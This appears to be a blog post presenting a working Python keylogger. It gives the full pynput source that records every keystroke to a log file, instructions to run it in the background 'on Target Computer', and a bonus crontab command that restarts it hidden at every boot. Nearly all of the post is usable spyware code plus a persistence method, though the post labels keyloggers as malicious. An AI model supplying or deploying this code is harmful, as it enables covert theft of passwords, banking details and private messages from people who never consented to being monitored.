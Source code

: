 ```yaml
---
title: Simple Keylogger
date: 2025-05-26 00:00:00 +0000
categories:
  - Others
tags:
  - keylogger
image: preview-image.png
media_subpath: /assets/img/Others/2025-05-26-simple-keylogger/
---
```


## Overview

**Keylogger** is a malicious program that is specifically designed to monitor and log the keystrokes made by the user on their keyboards. It is a form of spyware program used by cybercriminals to fetch sensitive information like banking details, login credentials of social media accounts, credit card number, etc.

## Usage

* Install required python libraries for our program to run correctly.
* [pynput](https://pypi.org/project/pynput/)

```bash
pip install pynput
```

* Run keylogger.py on Target Computer in background.

```bash
python3 keylogger.py &
```

* This will log the keystrokes until the program is stop manually.

```python
from pynput import keyboard
import os
import datetime

# Location where new log file will be created for storing logged keystrokes.
log_file = f'/home/kali/Desktop/Keylogger/{datetime.datetime.now().strftime("%d-%m-%Y|%H:%M")}.log'

# Creating a function to print the key pressed while listening on keylogger.
def key_pressed(key):
    with open(log_file, 'a') as f:

        # wrtie the normal charaters to log.
        try:
            f.write(key.char)

        # Handle and write special keys to log file.
        except AttributeError:

            # Open the file again in binary mode to use seek option to remove last character in the file.
            if key == keyboard.Key.backspace:
                 with open(log_file, 'rb+') as f:
                    f.seek(-1, os.SEEK_END)
                    f.truncate()
                    f.close()

            elif key == keyboard.Key.tab:
                f.write("\t")
            elif key == keyboard.Key.enter:
                f.write("\r")
            elif key == keyboard.Key.space:
                f.write(" ")
            
            # if any rough keys are pressed except known ones then it will right the key name it self.
            else:
                f.write("\n"+str(key)+"\n")

# Start the listener and give in the function(key_pressed) to perform when a key is pressed (on_press)
with keyboard.Listener(on_press=key_pressed) as listener:
    listener.join()

# Note: if Windows key is pressed the keylogger will note it as: 
#     Key.cmd
#     Key.ctrl
#     Key.esc  
```

![](2025-05-26-simple-keylogger-2.png)


Once the Program is started from that very movement each and every keys are logged in the output file. we can now check out the log file to see results.

![](2025-05-26-simple-keylogger-3.png)

* To further close the program use the following command with the respective PID of your program.

```bash
kill 12529
```

## Bonus

We Can further get more creative and it to the startup list of programs to run our program every time the system is started. This can be achieved using many diff. methods, here we are using crontab on boot.

```
(crontab -l ; echo "@reboot sleep 200 && \bin\python3 \home\kali\Desktop\Keylogger\main.py")|crontab 2> /dev/null
```
